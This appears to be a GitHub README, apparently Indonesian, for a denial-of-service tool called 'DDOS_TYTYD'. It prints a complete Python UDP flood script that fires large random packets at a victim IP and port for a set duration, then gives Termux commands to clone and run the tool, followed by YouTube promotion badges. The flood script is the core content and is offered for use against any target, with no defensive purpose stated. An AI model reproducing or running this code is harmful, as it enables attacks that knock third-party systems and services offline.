 # DDOS_TYTYD
V1 and V2 DDOS Tools

## Img Tools

<img src="https://github.com/AmmarrBN/DDOS_TYTYD/blob/main/IMG_20220620_234116.jpg" width="440" title="Menu" alt="Menu">


## Script Code
```js
#Buat Belajar Jan Dec Mulu Kontol
import os,sys,time,socket,random,string,optparse
import requests
from requests import post,get,put

#Kasi Logo Seterah
def usage():
    print ("Logo Seterah")

def flood(victim, vport, duration):
    client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    bytes = random._urandom(20000)
    timeout =  time.time() + duration
    sent = 3000

    while 1:
        if time.time() > timeout:
            break
        else:
            pass
        client.sendto(bytes, (victim, vport))
        sent = sent + 1
        print (f"bla bla")

def main():
    try:
          print (len(sys.argv))
          if len(sys.argv) != 4:
             usage()
          else:
             flood(sys.argv[1], int(sys.argv[2]), int(sys.argv[3]))
    except IndexError:
          sys.exit("use:python ddos.py bla")
if __name__ == '__main__':
    main()
```

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  pip install colorama requests bs4 
  git clone https://github.com/AmmarrBN/DDOS_TYTYD
  cd DDOS_TYTYD
  python ddos_tytyd.py
  ```
  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)


[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Lord%20Ganz&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Lord%20Ganz&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)

```

